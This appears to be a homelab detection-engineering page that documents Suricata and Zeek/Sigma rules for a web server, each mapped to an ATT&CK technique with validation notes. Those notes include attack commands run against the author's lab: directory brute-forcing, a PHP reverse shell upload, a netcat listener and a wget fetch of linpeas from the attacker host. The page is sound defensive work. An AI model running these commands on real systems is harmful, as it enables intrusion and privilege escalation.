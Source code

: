 ```yaml
---
title: Web Server Detections & Dashboards
---
```


# Web Server

This section documents custom suricata and sigma rules for my web server. Each item includes the **ATT&CK technique**, **signal logic**, and **validation evidence**.

## Directory Busting (T1595.0031)

**Suricata rule (inline):**
```suricata
alert http $HOME_NET any -> any any (msg:"WEB-APP possible directory busting"; flow:established,
to_client; http.stat_code; content:"301"; detection_filter:track by_dst, count 15, seconds 10; 
classtype:web-application-attack; sid:100002; rev:2;)
```

**Validation:** Ran `feroxbuster -u http://192.168.25.142 -w /usr/share/wordlists/dirbuster/directory-list.txt`; alert fired and triaged.
![6](img/6.png){ loading=lazy }

## Reverse Shell Upload (T1105 & T1190)

**Sigma rule (inline)**:
```zeek
title: 'Zeek HTTP Transfer of PHP File'
id: 7a2a8618-9b3c-4ace-bd19-270b4277fbbd
status: 'stable'
description: |
Alerts when Zeek logs show an HTTP-served file with MIME type "text/x-php" originating from 192.168.25.142. Useful for spotting potential webshell transfers.
author: 'Devin'
date: '2025/10/27'
logsource:
  service: http
  product: zeek
detection:
  selection:
    file.source: "HTTP"
    server.ip: "192.168.25.142"
    file.mime_type: "text/x-php"
    source.ip: "192.168.25.130"
  condition: selection
level: 'high'
```

**Validation:** Uploaded php reverse shell via the web app's file upload feature; alert fired and triaged.
![7](img/7.png){ loading=lazy }

## Reverse Shell Connection (T1505.003 & T1071.001)

**Sigma rule (inline)**:
```zeek
title: 'Zeek Outbound TCP 9001 (Potential PHP Reverse Shell)'
id: 0339b149-5d4e-4b36-8b56-c99be0aab027
status: 'experimental'
description: |
Detects outbound TCP connections to port 9001 in Zeek conn logs, a common default for PHP reverse shells.
author: 'Devin'
date: '2025/10/27'
logsource:
  service: http
  product: zeek
detection:
  selection:
    network.transport: "TCP"
    destination.port.keyword: "9001"
    source.ip: "192.168.25.142"
  condition: selection
level: 'high'
```

**Validation:** Ran `nc -nvlp 9001` on kali and clicked on the php reverse shell file in the uploads directory; alert fired and triaged.
![8](img/8.png){ loading=lazy }


## Download Linpeas (T1105)

**Suricata rule (inline)**:
```suricata
alert http $HOME_NET any -> any any ( msg:"LINUX linpeas download via wget"; flow:established,
to_server; http.user_agent; content:"Wget/"; nocase; classtype:policy-violation; sid:1157410; 
rev:1;)
```
**Validation:** Started python web server on kali and ran `wget http://192.168.25.130/linpeas.sh` from reverse shell; alert fired and triaged.
![9](img/9.png){ loading=lazy }
